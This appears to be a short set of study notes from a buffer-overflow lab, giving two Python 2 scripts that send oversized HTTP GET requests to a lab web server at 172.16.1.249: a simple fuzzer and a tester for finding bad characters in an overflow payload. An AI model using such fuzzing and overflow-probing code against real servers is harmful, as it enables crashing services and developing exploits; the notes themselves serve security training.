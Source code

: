 Quick Fuzzer

```
import socket
s = socket.socket()

s.connect(("172.16.1.249", 80))

n = int( raw_input("Number of A's:"))

req = "GET " + "A" * n
req += " HTTP/1.1\r\n"
req += "Host: 172.16.1.249\r\n\r\n"

s.send(req)
print s.recv(1024)
```

Demo for testing bad characters individually \(crash indicates its valid / hanging indicates invalid character\)

```
import socket
s = socket.socket()

s.connect(("172.16.1.249", 80))

n = int( raw_input( "Ascii code:") )

test = chr(n)

attack = test + "A" * (170 - len(test))
attack += "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"

req = "GET " +  attack
req += " HTTP/1.1\r\n"
req += "Host: 172.16.1.249\r\n\r\n"

s.send(req)
print s.recv(1024)
```



Reference:

https://samsclass.info/127/proj/p10xbo.htm

